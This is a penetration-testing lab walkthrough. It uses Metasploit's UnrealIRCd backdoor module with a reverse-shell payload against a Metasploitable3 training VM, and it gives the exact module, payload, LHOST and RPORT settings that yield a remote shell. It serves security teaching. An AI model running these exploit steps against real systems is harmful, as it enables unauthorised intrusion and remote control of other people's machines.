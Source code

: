 # Lab - Metasploit

!!! tip "Lab Setup"
    1) Start up the Metasploitable3 VM and login.

    2) Run the ifconfig command to display the VM’s network interface information.

## Intro

Metasploit is an open-source framework that offers a comprehensive suite of tools for penetration testing, vulnerability scanning, and exploit development. It is widely used by security professionals and hackers alike to simulate attacks and identify weaknesses in computer systems, networks, and applications. Metasploit is constantly evolving to keep up with the latest threats and vulnerabilities, making it a critical tool in any security professional's arsenal. This hands-on technical lab will introduce the Metasploit framework, including basic commands, modules, and payloads.

## Walkthrough

Now switch over to your Forge VM.

Execute the below command so we can review the results from our prior Nmap Lab.

```bash
cat ~/nmap_lab.nmap
```

We’re looking for interesting open ports and services that we might want to target with Metasploit.

![Port Scanning Results](./img/Untitled.png){ width="70%" }
/// caption
Port Scanning Results
///

UnrealIRCd[[1]](https://www.notion.so/Lab-5-Metasploit-b091b960bf1648859b04467945712a22?pvs=21) is an open-source Internet Relay Chat (IRC) server software that allows users to host and run their own IRC networks. IRC is a communication protocol used for real-time text messaging and file sharing on the internet. UnrealIRCd is one of the most popular IRC server software packages available and is used by many large IRC networks and smaller communities alike.

UnrealIRCd provides a wide range of features and customization options, including channel modes, operator privileges, ban lists, and SSL encryption. It is highly customizable, allowing network administrators to configure and modify the server to meet their specific needs.

Overall, UnrealIRCd provides a powerful and flexible platform for hosting and running IRC networks and has been widely adopted by communities of all sizes.

Now execute the below command…

```bash
searchsploit unrealircd
```

The "searchsploit" command is part of the Exploit Database, a collection of exploits and vulnerabilities maintained by Offensive Security. This command searches the database for exploits related to the specified search term.

Therefore, the `searchsploit unrealircd` command would search the Exploit Database for exploits related to the UnrealIRCd software, which is an IRC server software. This command can be useful for identifying potential vulnerabilities in UnrealIRCd and for finding exploits that can be used to exploit those vulnerabilities.

It is important to note that the Exploit Database should be used responsibly and only for legitimate security research purposes. Unauthorized or malicious use of exploits can result in serious harm to computer systems and networks.

![Searching for Unrealircd](./img/Untitled%201.png){ width="70%" }
/// caption
Searching for Unrealircd
///

Looks like there’s an exploit available for use with Metasploit!

Execute the below command…

```bash
msfconsole
```

This command launches the Metasploit Framework console. The console is the primary interface for interacting with the Framework and executing various modules and exploits.

Let’s execute the below command next…

```bash
search UnrealIRCd
```

The `search` command in `msfconsole` is used to search for specific exploits, payloads, or modules within the Metasploit Framework. The command `search UnrealIRCd` would search the database for any modules related to the UnrealIRCd server software.

![Metasploit Search Results](./img/Untitled%202.png){ width="70%" }
/// caption
Metasploit Search Results
///

There’s the exploit we saw from `searchsploit`!

Execute the below command to get a bit more information on that module.

```bash
info 0
```

Notice how we used the index number from our `search` command to get info for the module. This is a handy trick to quickly reference things in msfconsole.

In the image below you can see the rank is “Excellent” and the exploit takes advantage of a malicious backdoor.

![Module Info](./img/Untitled%203.png){ width="70%" }
/// caption
Module Info
///

Let’s go ahead and use the module by running the below command.

```bash
use 0
```

![Use Command](./img/Untitled%204.png){ width="70%" }
/// caption
Use Command
///

Let’s see how to configure the module with the below command…

```bash
options
```

![Module Ooptions](./img/Untitled%205.png){ width="70%" }
/// caption
Module Ooptions
///

We’re missing our target IP specification. Let’s set that now with the below command.

Be sure to use the Metasploitable3 IP address you noted in the setup steps.

```bash
set RHOSTS [Metasploitable3_IP_Address]
```

![Remote Hosts Targeting](./img/Untitled%206.png){ width="70%" }
/// caption
Remote Hosts Targeting
///

We’re ready to try exploiting! Run the below command…

```bash
exploit
```

![Exploit! Errr…maybe not](./img/Untitled%207.png){ width="70%" }
/// caption
Exploit! Errr…maybe not
///

Uh oh! Looks like it failed cause we didn’t select a payload to use with our exploit.

The `show payloads` command below displays a list of available payloads that can be used to deliver the exploit to the target system.

A payload is a piece of code that is executed on the target machine after a successful exploitation, typically designed to provide an attacker with some form of remote access to the compromised system. Metasploit offers a wide range of payloads to choose from, including reverse shells, Meterpreter, and VNC injection, among others.

Execute the below command…

```bash
show payloads
```

![Available Payloads](./img/Untitled%208.png){ width="70%" }
/// caption
Available Payloads
///

Let’s keep things simple and choose `payload/cmd/unix/reverse` payload. We can select it via its index number with the below command…

```bash
set PAYLOAD payload/cmd/unix/reverse
```

![Payload Selection](./img/Untitled%209.png){ width="70%" }
/// caption
Payload Selection
///

Now double check the configuration options with the below command since we now have a payload selected.

```bash
options
```

![Module Options](./img/Untitled%2010.png){ width="70%" }
/// caption
Module Options
///

Looks like we need to set the `LHOST` option for the payload.

This below command sets the local host IP address that the Metasploit Framework will use to establish a connection with the target machine. The `LHOST` parameter is used to specify the IP address of the network interface on the attacker machine (our Forge VM) that will be used to listen for incoming connections from the target. In this case, the `eth0` interface is being used.

```bash
set LHOST ens33
```

![Set LHOST](./img/Untitled%2011.png){ width="70%" }
/// caption
Set LHOST
///

Triple check the configuration…

```bash
options
```

![Module Options](./img/Untitled%2012.png){ width="70%" }
/// caption
Module Options
///

Things look good! Let’s run the exploit again with the below command.

```bash
exploit
```

![Failed?!](./img/Untitled%2013.png){ width="70%" }
/// caption
Failed?!
///

Take a closer look at the `options` from the above screenshot. Notice we had the target set to the default port `6667` but the nmap scan said IRC was actually running on on port `6697`. Well that’s an easy fix. Let’s just update the `RPORT` option.

```bash
set RPORT 6697
```

![Corrected target RPORT](./img/Untitled%2014.png){ width="70%" }
/// caption
Corrected target RPORT
///

It’s important to remember that modules have default values but you should always make sure that you are customizing them to your target. 

Let’s run `exploit` one last time.

```bash
exploit
```

![Exploit! (for real this time)](./img/Untitled%2015.png){ width="70%" }
/// caption
Exploit! (for real this time)
///

SUCCESS! [evil laugh]

Our exploit worked and we now have a shell on the target/victim/Metasploitable3 machine.

Start exploring the target/victim machine with the below commands like `whoami`, `pwd`, `uname -a`, `ifconfig | grep inet`, and `ls -l` to see what’s there!

![On The Target Machine](./img/Untitled%2016.png){ width="70%" }
/// caption
On The Target Machine
///

You can end the shell session by pressing `Control+C` keys.

```bash
CTRL+C
```

![Exiting The Shell](./img/Untitled%2017.png){ width="70%" }
/// caption
Exiting The Shell
///

And exit Metasploit to end the Lab.

```bash
exit
```

![Exiting Metasploit](./img/Untitled%2018.png){ width="70%" }
/// caption
Exiting Metasploit
///